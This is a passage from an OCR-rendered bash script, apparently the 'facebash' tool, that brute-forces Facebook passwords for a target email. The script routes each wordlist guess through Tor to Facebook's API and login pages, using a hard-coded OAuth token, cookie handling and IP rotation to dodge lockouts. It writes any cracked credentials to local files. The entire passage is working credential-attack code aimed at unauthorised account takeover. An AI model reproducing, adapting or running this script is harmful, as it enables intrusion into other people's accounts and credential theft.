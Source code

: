 #countpass=$(grep -n "$PASS" "$wl_pass" | cut -d ":" -f1)
#childcount=$(($counter1))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS
let token++
#sleep 1
{( trap '' SIGINT && check=$( curl --socks5 localhost:9050 -s 'https://b-api.facebook.com/method/auth.login' --user-agent "Firefox" -L -H "Authorization: OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16" -d "email=$EMAIL&password=$PASS" | grep -o "session_key\|account is temporarily unavailable" | uniq ); if [[ $check == "session_key" ]]; then printf "\e[1;92m \n  [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.facebash \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi ) } & done; wait $!;
let counter1++
let threads++
let startline++
let endline++
#let countpass++
let cum++
changeip
done

}

function resumemethod2() {
rm -rf cookies*
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
counter22=20
while [ $counter22 -lt $turn ]; do

IFS=$'\n'
for PASS in $(sed -n ''$token','$(($cum+1))'p' $wl_pass); do
let countpass++

COOKIES='cookies'$countpass''
#echo "method 2: \n"
#childcount=$(($counter22))
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $token $count_pass $PASS

{( trap '' SIGINT && curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php' --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES --location > /dev/null && curl -s -X POST --socks5-hostname localhost:9050 'https://login.facebook.com/login.php'  --user-agent $USER_AGENT --data-urlencode "email=${EMAIL}" --data-urlencode "pass=${PASS}" --cookie $COOKIES --cookie-jar $COOKIES > /dev/null && var=$( curl -s -X GET --socks5-hostname localhost:9050 'https://www.facebook.com/home.php'  --user-agent $USER_AGENT --cookie $COOKIES --cookie-jar $COOKIES | grep -o "logoutMenu\|account is temporarily unavailable" | uniq ); if [[ $var == "logoutMenu" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n " $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.facebash ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $check == "account is temporarily unavailable" ]]; then printf "\e[1;92m \n [*] Password Found or false positive: %s\n [*] Flag can be false positive\n" $PASS; printf "Username: %s, Password: %s\n" $EMAIL $PASS >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; fi; ) } & done; wait $!;
rm -rf cookies$countpass
changeip
